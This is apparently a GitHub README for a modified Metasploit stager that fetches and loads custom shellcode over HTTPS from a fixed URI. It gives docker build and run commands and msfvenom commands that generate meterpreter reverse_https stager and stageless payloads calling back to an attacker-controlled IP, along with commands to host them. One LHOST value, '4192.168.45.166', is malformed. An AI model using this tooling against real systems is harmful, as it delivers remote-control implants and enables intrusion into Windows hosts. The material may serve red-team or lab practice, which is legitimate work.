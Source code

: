 # HTTPS Shellcode Stager
This repository modifies the Metasploit (msf) stager to enable downloading and loading customized shellcode from the internet.

The original msf stager shellcode windows/x64/meterpreter/reverse_https generates a random URI using `generate_uri_uuid_mode()` and hosts a server to send the raw binary shellcode.

I have modified the URI to be fixed, allowing customization of its parameters. Users should host their customized shellcode on an HTTPS webserver, such as with `simple-https-server.py` or another server like nginx (no certificate check required).


## Build the container
```
sudo docker build -t meow-stager .
```

## Usage
```
Usage:  -a <arch> -i <ip> -p <port> -u <uri> -f <format>
```

Example:
```
# Generate stager shellcode
sudo docker run -i --rm meow-stager -a x64 -i 192.168.45.166 -p 443 -u file/meow -f ps1


# Generate stageless shellcode and host on simple-https-server
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=4192.168.45.166 LPORT=10001 LURI=msf -f raw 
sudo python3 simple-https-server.py 443
```

